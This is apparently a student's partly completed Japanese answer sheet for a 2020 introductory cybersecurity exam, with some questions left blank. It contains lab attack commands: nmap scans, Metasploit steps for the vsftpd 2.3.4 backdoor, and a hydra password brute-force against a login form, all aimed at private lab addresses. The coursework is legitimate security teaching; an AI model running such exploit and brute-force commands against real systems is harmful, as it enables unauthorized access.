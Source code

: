 # CyberSecurity I Exam 2020 回答用紙

## 問1 [netcat]

### サーバー側コマンド

```sh
 nc -lvp 5200

```
### クライアント側コマンド

```sh
 nc 192.168.33.10 5200

```

## 問2 [Password Crack]

```md
<!--  ここに回答を記述 -->

```

## 問3 [Port Scanner]

### 1. ping scan

```sh
 nmap -sP 192.168.33.0/24

```

### 2. version scan

```sh
 nmap 192.168.33.1/24

```

## 問4 [Metasploit Framework]

```sh
 msfconsole
 search vsftp
 use vsftpd_234_backdoor
 show options
 set RHOSTS 192.168.33.5
 show optionsで変わったか確認
 exploit

```

## 問5 [Online Password Cracker]


### 1. コマンド

```sh
 hydra -L user.list -P passwd.list -s 8180 192.168.33.5 http-form-post "/admin/j_security_check:j_username=^USER^&j_password=^PASS^:Invalid username or password"
```

### 2. 解析結果

```sh
# ここに回答を記述

```

## 問6 [Packet Sniffer]

```sh
# ここに回答を記述

```

## 問7 [不正アクセス]

### 1. rootアクセスの件数

```md
<!--  ここに回答を記述 -->

```

### 2. 不正アクセスユーザーのTOP3

```md
<!--  ここに回答を記述 -->

```
### 3. IPアドレスのアクセス件数と発信国

```md
<!--  ここに回答を記述 -->

```

## 問8 [自己評価]

```md
30点

```

## 問9 [講義の感想]

```md
仮想環境構築、ncを使ったチャット、ポートスキャン、Hydra、wiresharkなど
正直難しいし覚えるのが多くて大変だった。１日でも休むと授業について生きなくなることがわかった。休まないようにしたい

```
